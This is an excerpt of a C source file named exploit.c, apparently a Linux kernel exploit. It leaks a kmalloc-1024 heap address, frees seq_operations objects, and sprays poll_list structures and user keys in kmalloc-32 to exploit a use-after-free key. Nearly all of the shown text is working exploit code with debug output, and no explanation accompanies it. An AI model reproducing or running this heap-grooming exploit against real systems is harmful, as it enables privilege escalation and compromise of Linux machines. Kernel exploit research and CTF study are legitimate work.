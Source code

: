 ```exploit.c
    if (
      (tmp[ix] >> (64-4*4)) == 0xFFFF && // tty must be in kheap
      (tmp[ix + 1] >> (64-4*4)) == 0xFFFF && // file must be in kheap
      tmp[ix+2] == tmp[ix+3] && tmp[ix+2] != 0 && // list_head's next and prev are same
      (tmp[ix] & 0xFF) == 0x00 && // tty must be 0x100 aligned
      (tmp[ix + 1] & 0xFF) == 0x00 && // file must be 0x100 aligned
      (tmp[ix + 2] & 0xF) == 0x08
    ) {
      if (km1024_leaked == 0) {
        km1024_leaked = tmp[ix];
        printf("[!] \t+0: 0x%lx (tty)\n", tmp[ix]);
        printf("[!] \t+1: 0x%lx (*file)\n", tmp[ix + 1]);
        printf("[!] \t+2: 0x%lx (list_head.next)\n", tmp[ix + 2]);
        printf("[!] \t+3: 0x%lx (list_head.prev)\n", tmp[ix + 3]);
        break;
      }
    }
  }
  if (km1024_leaked == 0) {
    print_curious(keybuf, 0x4300, 0);
    errExit("Failed to leak kmalloc-1024");
  }
  printf("[!] leaked kmalloc-1024: 0x%lx\n", km1024_leaked);

  /********************************************************/

  // Free `seq_operations`, one of which is `user_key_payload`
  for (int ix = NUM_SEQOPERATIONS - NUM_FREE_SEQOPERATIONS; ix != NUM_SEQOPERATIONS; ++ix) {
    close(seqops_fd[ix]);
  }
  puts("[+] Freeed seq_operations");

  sleep(5); // TODO
  // Spray `poll_list` in kmalloc-32, one of which is placed on `user_key_payload`
  assign_to_core(2);
  neverend = 1;
  puts("[+] spraying `poll_list` in kmalloc-32...");
  num_threads = 0;
  for (int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = 3000; // must 1000 < timeout_ms, to wait key GC
    arg->num_size = 30 + 2;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }
  // wait threads are initialized (to prevent double free)
  assign_to_core(0);
  while(num_threads != NUM_2ND_POLLLIST_ALLOC);
  usleep(300 * 1000);

  // Revoke UAFed key, which is on `poll_list` in kmalloc-32
  puts("[+] Freeing UAFed key...");
  free_key(uafed_key);
  sleep(1);

  // Spray keys on UAFed `poll_list`
  puts("[+] spraying keys in kmalloc-32");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'X', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    ((ulong*)key_payload)[0] = 0x9999999999999999; // debug
```